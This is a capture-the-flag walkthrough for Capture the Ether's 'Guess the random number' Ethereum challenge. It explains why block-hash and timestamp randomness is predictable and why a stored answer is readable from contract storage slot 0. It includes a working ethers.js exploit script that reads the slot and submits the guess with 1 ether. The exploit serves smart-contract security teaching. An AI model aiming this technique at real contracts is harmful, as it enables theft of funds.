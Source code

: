 ```yaml
---
description: >-
  In Capture the Ether's "Guess the random number", we see the first example of
  a "secret number" that can't easily be gleaned from reviewing the contract.
---
```


# Guess the random number

[This challenge](https://capturetheether.com/challenges/lotteries/guess-the-random-number/) is unique in that it sets the value of its `answer` from a _sort-of-random_ source when it is deployed (via its constructor) and it isn't obvious just in reading the contract what it could be.

### Hints

<details>

<summary>Hint One</summary>

Remember that data stored on the blockchain is publicly accessible, including the value of this contract's `answer` variable. The question is, where do contracts store their state variables and how can you access them pragmatically?

</details>

### Full Walkthrough

There are really two ways to approach at this challenge. Let's look at how the answer is generated in the constructor:

```solidity
function GuessTheRandomNumberChallenge() public payable {
    require(msg.value == 1 ether);
    answer = uint8(keccak256(block.blockhash(block.number - 1), now));
}
```

The sources of "randomness" fed to the `keccak256` function are the block hash of the previous block and the current block timestamp (`now`). Both of these values could be reverse-engineered by looking at the block in which the contract itself was deployed, making them a pretty poor way of generating a "random" value.&#x20;

The other way to look at this problem is by realizing that no matter how random the value of `answer` may be, it is still stored on the blockchain as a state variable for this contract. Specifically, because it is the first state variable declared it lives in the slot indexed 0 of this contract's storage. This means we can easily query the value from the chain, ensuring our "guess" is a very good one.&#x20;

### Scripted Solution

```javascript
const ethers = require('ethers')
const fs = require('fs')
require('dotenv').config({ path: './.env' })

/**
 * Initialize Ethers objects needed to interact with the blockchain and
 * contract.
 */
async function setup(contractName) {
  // Create provider - a read-only abstraction to access blockchain data
  const provider = new ethers.providers.InfuraProvider(process.env.NETWORK)
  // Create player wallet
  const playerWallet = new ethers.Wallet(process.env.PRIVATE_KEY)
  // Create player wallet signer - an abstraction of an Ethereum account
  const playerWalletSigner = await playerWallet.connect(provider)
  // Create contract instance - an abstraction of the deployed contract code
  const contractAbi = fs.readFileSync(`./${contractName}.abi`, 'utf8')
  const contract = new ethers.Contract(
    process.env.CONTRACT_ADDRESS,
    contractAbi,
    playerWalletSigner
  )

  return { provider, playerWallet, playerWalletSigner, contract }
}

/**
 * Run contract exploit.
 */
async function main() {
  // Get Ethers objects needed to interact with the blockchain and contract
  const { provider, contract: guessTheRandomNumberChallengeContract } =
    await setup('GuessTheRandomNumberChallenge')

  // Get `answer` from contract storage slot
  console.log('Getting answer from contract storage...')
  const answerSlot = 0
  const answerDataHexString = await provider.getStorageAt(
    guessTheRandomNumberChallengeContract.address,
    answerSlot
  )
  const answerNumber = Number(ethers.utils.hexValue(answerDataHexString))

  // Guess answer by calling `guess` with 1 ether
  const guessAnswer = await guessTheRandomNumberChallengeContract.guess(
    answerNumber,
    {
      gasPrice: 20000000000,
      value: ethers.utils.parseEther('1.0')
    }
  )
  await guessAnswer.wait(1)

  // Confirm challenge completion
  console.log('Confirming challenge completion...')
  const challengeComplete =
    await guessTheRandomNumberChallengeContract.isComplete()

  if (challengeComplete) {
    console.log('Challenge is complete!')
  }
}

main()
  .then(() => process.exit(0))
  .catch(error => {
    console.error(error)
    process.exit(1)
  })
```
